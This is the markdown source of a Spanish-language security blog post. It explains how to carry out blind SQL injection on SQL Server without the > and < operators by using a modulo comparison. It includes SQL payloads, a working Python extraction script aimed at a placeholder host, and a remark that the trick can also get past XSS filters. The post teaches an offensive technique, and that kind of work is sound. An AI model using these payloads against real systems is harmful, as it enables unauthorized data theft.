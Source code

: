 ```yaml
---
layout: post
title: "Blind SQLi Trick"
author: "RoP Team"
description: "¿Cómo explotar un Blind SQLi sin los operadores de mayor o menor?"
keywords: "sqli, web, trick"
date: 2020-10-30 00:00:00 -0500
categories: web
lang: es
lang-ref: blind-sqli-trick
---
```


¿Se puede escribir más sobre SQL Injection? No hace mucho tuve que explotar un SQLi donde el parámetro vulnerable se usaba también para crear un archivo como parte del nombre. Puesto que el servidor era Windows, incluir los caracteres `>` y `<` en la inyección provocaba un error que impedía la explotación. Sepa que estos caracteres ([y otros](https://stackoverflow.com/questions/1976007/what-characters-are-forbidden-in-windows-and-linux-directory-names)) no se permiten para nombrar archivos. Dicho sea de paso, se trataba de un Blind SQLi donde el uso de los mencionados operadores de comparación es necesario para implementar el algoritmo de búsqueda binaria ¿O quizá no?

<!--more-->

### Búsqueda binaria

La búsqueda binaria consiste en *acorralar* un valor desconocido dentro de un intervalo e ir reduciendo el intervalo progresivamente hasta deducir dicho valor. Para reducir el intervalo se pregunta si el valor desconocido es menor o mayor que la mitad del intervalo y, según la respuesta obtenida, se toma la mitad inferior o superior (respectivamente) para la siguiente iteración.

Así pues, en un Blind SQLi, usamos este algoritmo para preguntar si el valor numérico de la primera letra de la clave del administrador (`X`) es mayor o menor que un `M`, siendo `M` la mitad de un intervalo conocido por nosotros (por ejemplo, el código ASCII). En no más de 8 iteraciones hallaremos `X` y continuaremos con la segunda letra.

```sql
' AND X > M -- 
```

### Búsqueda binaria sin `>` o `<`

La pregunta es ¿Cómo compararar dos valores sin los operadores de comparación? Luego de un rato pensandolo se me ocurrió utilizar el operador módulo. Recuerde que el módulo es el residuo de una división entera. Así que se cumplirá:

$$ X > M  \rightarrow  (M\ mod\ X) = M$$

La inyección equivalente sería:

```sql
' AND (M%X)=M -- 
```

Todos los caracteres involucrados son perfectamente válidos para nombrar archivos.

### Implementación

El siguiente es un sencillo script en python que implementa este tipo de inyección. Olvidé mencionarlo antes: la base de datos era SQL Server.

```python
from urllib.parse import quote_plus
import requests


def inject(payload):
    url = 'https://vulnerable.com/?sqli={}'
    resp = requests.get(url.format(quote_plus(payload)))
    return 'STRING IF TRUE' in resp.text


def binary_search(expression, lmin=0, lmax=255):
    if lmin == lmax:
        return lmin
    value = (lmin + lmax) // 2
    #  expression > value
    payload = "' AND ({value}%{expression})={value} -- ".format(expression=expression, value=value)
    if inject(payload):
        return binary_search(expression, value + 1, lmax)
    else:
        return binary_search(expression, lmin, value)


def extract_string(expression, lmin=0, lmax=100):
    payload = "(length({expression}))".format(expression=expression)
    slen = binary_search(expression=payload, lmin=lmin, lmax=lmax)

    payload = "UNICODE(SUBSTRING(({expression}),{index},1))"
    return ''.join([
        chr(binary_search(payload.format(expression=expression, index=i)))
        for i in range(1, slen + 1)
    ])


print(extract_string('db_name()'))
```

### Conclusiones

- Sí es posible implementar la búsqueda binaria sin los operadores de comparación. Esto nos ahorra mucho tiempo puesto que la alternativa hubiera sido usar una búsqueda secuencial.
- Este mismo truco se puede utilizar también para burlar algunos filtros que detecten los caracteres `>` y `<` como XSS.
- Las herramientas como SQLMap son útiles pero siempre van a tener limitaciones. Es necesario conocer las técnicas de explotación y los algoritmos involucrados.
- ~~La recursividad solo sirve para escribir menos líneas de código~~

¡Hasta pronto!

> Escrito por **RoP Team**